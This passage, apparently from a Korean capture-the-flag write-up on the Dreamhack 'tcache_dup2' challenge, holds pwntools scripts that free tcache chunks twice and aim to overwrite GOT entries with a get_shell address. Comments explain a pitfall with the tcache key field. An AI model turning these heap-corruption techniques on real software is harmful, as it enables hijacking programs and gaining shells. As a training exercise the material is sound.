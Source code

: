 ```
create(0x20, b'a')


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[3]
get_shell = elf.symbols['get_shell']
create(0x20, p64(get_shell))
# tcache에서 청크를 찾아서 할당할 때 해당 청크에 `e->key = NULL;`을 해서 `청크 + 0x8`을 `0x00`으로 초기화하기 때문에,
# 여기서 printf@got를 할당할 때, [printf@got + 0x8]에 위치하는 read@got의 값이 NULL(0x00)으로 바뀜
# tcache_dup 워게임에서는 printf@got 뒤에 alarm@got가 존재해서 상관없지만, 여기서는 create 내부에서 read로 데이터에 get_shell을 대입해야 하므로 read@got를 수정하면 안됨

p.interactive()
```

# `ex_wrong3.py`

```
from pwn import *

p = remote('host3.dreamhack.games', 14896)
elf = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')
# tcache[0x20] : empty
# chunk : ptr[1]
create(0x20, b'b')


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[1]
delete(0)
# tcache[0x20] : ptr[1] -> ptr[0]
# tc_idx = 2
# chunk : ptr[1]
delete(1)


```